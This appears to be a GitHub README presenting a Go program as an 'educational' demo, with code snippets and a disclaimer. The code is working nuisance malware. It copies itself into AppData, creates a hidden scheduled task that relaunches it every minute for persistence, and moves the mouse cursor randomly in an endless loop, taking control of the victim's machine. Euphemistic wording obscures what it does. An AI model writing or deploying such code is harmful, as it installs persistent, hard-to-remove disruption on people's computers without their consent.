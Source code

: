 

# Autonomous System Interaction Demo 

## Overview

This project is a lightweight **Go-based demonstration** that showcases techniques related to:

1. **File relocation into user data directories** for persistence 
2. **Automated relaunch scheduling** through the Windows task planner 
3. **Continuous dynamic interface activity** generated programmatically 

The implementation is purely for **educational and research purposes**, highlighting how persistence mechanisms and interactive system behaviors can be combined in a single application 

---

## Code Walkthrough

### 1 Relocating the Executable 

```go
exePath, _ := os.Executable()
appData := os.Getenv("APPDATA")
outPath := filepath.Join(appData, filepath.Base(exePath))

input, _ := os.ReadFile(exePath)
os.WriteFile(outPath, input, 0644)
```

* Detects its own binary location 
* Creates a duplicate inside the **AppData** directory, a common location for application support files 

---

### 2 Establishing Scheduled Relaunch 

```go
taskName := filepath.Base(exePath)
taskName = taskName[:len(taskName)-len(filepath.Ext(taskName))]
cmd := exec.Command("schtasks.exe", "/create", "/f", "/sc", "minute", "/mo", "1", "/tn", taskName, "/tr", outPath)
cmd.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
cmd.Run()
```

* Registers a scheduled task via Windows’ built-in **Task Scheduler** 
* Configured to trigger regularly, ensuring **persistence even after system restarts** 

---

### 3 Linking with System Libraries 

```go
user32 := windows.NewLazyDLL("user32.dll")
setCursorPos := user32.NewProc("SetCursorPos")
getSystemMetrics := user32.NewProc("GetSystemMetrics")

screenWidth, _, _ := getSystemMetrics.Call(0)
screenHeight, _, _ := getSystemMetrics.Call(1)
```

* Dynamically loads functions from **user32.dll** 
* Retrieves screen dimensions to define boundaries for interactive behavior 

---

### 4 Generating Continuous Activity 

```go
rand.Seed(time.Now().UnixNano())
for {
    x := rand.Intn(int(screenWidth))
    y := rand.Intn(int(screenHeight))
    setCursorPos.Call(uintptr(x), uintptr(y))
    time.Sleep(100 * time.Millisecond)
}
```

* Seeds a random generator with the current timestamp 
* Continuously produces new coordinate pairs 
* Sends instructions to reposition a system control element, creating **constant dynamic activity** on the interface 

---

## Disclaimer 

This repository is provided **strictly for research and educational demonstration**.
I (3582-490) am **not responsible** for any misuse of this project.
Running or modifying this program is entirely at the user’s own risk 
